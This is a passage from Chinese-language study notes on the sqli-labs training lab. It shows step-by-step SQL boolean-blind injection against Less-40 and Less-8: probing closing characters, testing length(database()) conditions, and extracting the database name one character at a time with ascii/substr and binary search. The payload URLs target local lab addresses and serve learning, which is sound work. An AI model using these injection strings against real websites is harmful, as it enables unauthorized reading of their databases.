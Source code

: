 >![image-20230813165124444](../资源文件/图片/image-20230813165124444.png)
>
>对比可知，需自己尝试,直到弄出所有数据



## SQL布尔盲注

> 1.判断闭合符号 `‘`，`“`， ，`’)`，`”)`，和`and 1=1` && `and 1=2`,发现不会回显，但是通过页面显示会不正常，可判断正确的闭合符号
>
> ```
> http://192.168.101.16/sqli-labs-master/Less-40/?id=1 有查询结果
> http://192.168.101.16/sqli-labs-master/Less-40/?id=1" 有查询结果
> http://192.168.101.16/sqli-labs-master/Less-40/?id=1' 无查询结果 
> http://192.168.101.16/sqli-labs-master/Less-40/?id=1'-- s 无查询结果
> http://192.168.101.16/sqli-labs-master/Less-40/?id=1')-- s 有查询结果
> ```
>
> 2.尝试布尔注入，`?id=1’ and (length(database()))>0-- -`,
>
> `?id=1’ and (length(database()))<0-- -`
>
> 看页面回显有问题，判断可用布尔盲注
>
> 3.判断数据库名第一位

```
http://localhost:8081/sql/Less-8/?id=1' and (select ascii(substr(database(),1,1)))>115
```

> ’115‘需要用二分法对比
>